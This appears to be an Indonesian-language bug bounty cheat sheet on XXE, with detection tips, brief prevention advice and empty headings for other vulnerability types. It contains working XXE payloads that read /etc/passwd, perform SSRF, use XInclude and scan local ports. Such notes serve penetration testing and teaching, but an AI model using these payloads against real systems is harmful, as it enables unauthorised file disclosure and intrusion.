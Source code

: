 # Vulnerability
<p align="center"><img src="https://user-images.githubusercontent.com/52058660/89898222-85c0a500-dc0a-11ea-9eca-815238a55a38.jpg" width="500"></p>

Online resource:
- [bugbounty-cheatsheet](https://github.com/EdOverflow/bugbounty-cheatsheet) - by EdOverflow
---

## XXE
Sebelum memahami XXE, kita harus memiliki pengetahuan dasar XML, DTD dan entity. Tools yang digunakan Burpsuite, lebih mantap lagi jika menggunakan Burp Collaborator (*berbayar*).
- Detection
  - [Cari](https://christian-schneider.net/GenericXxeDetection.html) aplikasi yang mengirimkan data dalam format XML, disebut juga XML endpoint
  - Intercept web page, lalu cari web yang request header `Content-Type`-nya `text/xml` atau `application/xml
  - Cari fitur web yang mengunakan XML, seperti RSS, SOAP
  - Cara cepat menemukan XML endpoint adalah automasi
  
- Exploitation
  - Retrieve Files
    - Inject [payload](https://github.com/payloadbox/xxe-injection-payload-list) ke bagian !DOCTYPE
    - `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>`
  - Exploiting to perform Server Side Request Forgery (SSRF)
    - Sama seperti cara di atas. Tapi jika sebelumnya menggunakan `file`, untuk exploitasi ini menggunakan `http` dilanjutkan dengan ip server
    - `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “http://1”> ]>`
  - Jika tidak bisa modifikasi !DOCTYPE, gunakan `XInclude`
    - `<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`
  - Test local machine port (gunakan burp intruder)
    - brute port dari ip local, lalu cek bergantian antara http dan https
    - `<!DOCTYPE xxe SYSTEM "http://127.0.0.1:§port§/">`
    - `<!DOCTYPE xxe SYSTEM "https://127.0.0.1:§port§/">`
  - Exploiting [RSS validator](https://taind.wordpress.com/2017/12/25/root-me-xml-external-entity/)
    - store XML payload ke server, jika tidak punya gunakan [filebin](https://filebin.net/)
    
- Prevention
  - Disable DTD
  - Disable entity saja
---
## Subdomain Takeover

---
## SQL Injection

---
## XSS

